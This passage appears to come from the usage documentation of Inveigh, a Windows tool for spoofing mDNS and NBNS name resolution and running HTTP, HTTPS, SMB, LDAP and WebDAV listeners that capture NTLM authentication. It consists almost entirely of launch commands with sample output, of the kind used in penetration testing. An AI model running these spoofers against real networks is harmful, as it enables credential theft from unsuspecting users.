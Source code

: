 ```
[+] [23:28:26] mDNS(QM)(A) request [test.local] from 10.10.2.201 [response sent]
[+] [23:28:26] mDNS(QM)(A) request [test.local] from fe80::bd92:a800:60d0:8deb%2 [response sent]
```
### <a name="NBNS"></a>NBNS
Start NBNS spoofer
```
.\Inveigh.exe -nbns y
...
[+] NBNS Listener [Types 00:20]
...
[+] [23:33:09] NBNS(00) request [TEST] from 10.10.2.201 [response sent]
```
### <a name="HTTP"></a>HTTP
Start HTTP listener on port 80 (enabled by default)
```
.\Inveigh.exe 
...
[+] HTTP Listener [HTTPAuth NTLM | WPADAuth NTLM | Port 80]
...
```
Start HTTP listeners on multiple ports
```
.\Inveigh.exe -httpports 80,8080
...
[+] HTTP Listener [HTTPAuth NTLM | WPADAuth NTLM | Ports 80:8080]
...
```
### <a name="HTTPS"></a>HTTPS
Start HTTPS listener on port 443 with Inveigh's default cert
```
.\Inveigh.exe -https y
...
[+] HTTPS Listener [HTTPAuth NTLM | WPADAuth NTLM | Port 443]
...
```
### <a name="SMB"></a>SMB
Start SMB packet sniffer (enabled by default)
```
.\Inveigh.exe
...
[+] SMB Packet Sniffer [Port 445]
...
```
Start SMB listener on port 445
```
.\Inveigh.exe -sniffer n
...
[+] SMB Listener [Port 445]
...
```
### <a name="LDAP"></a>LDAP
Start LDAP listener on port 389
```
.\Inveigh.exe
...
[+] LDAP Listener [Port 389]
...
```
### <a name="WebDAV"></a>WebDAV
Start the HTTP listener with WebDAV support (enabled by default)
```
.\Inveigh.exe
```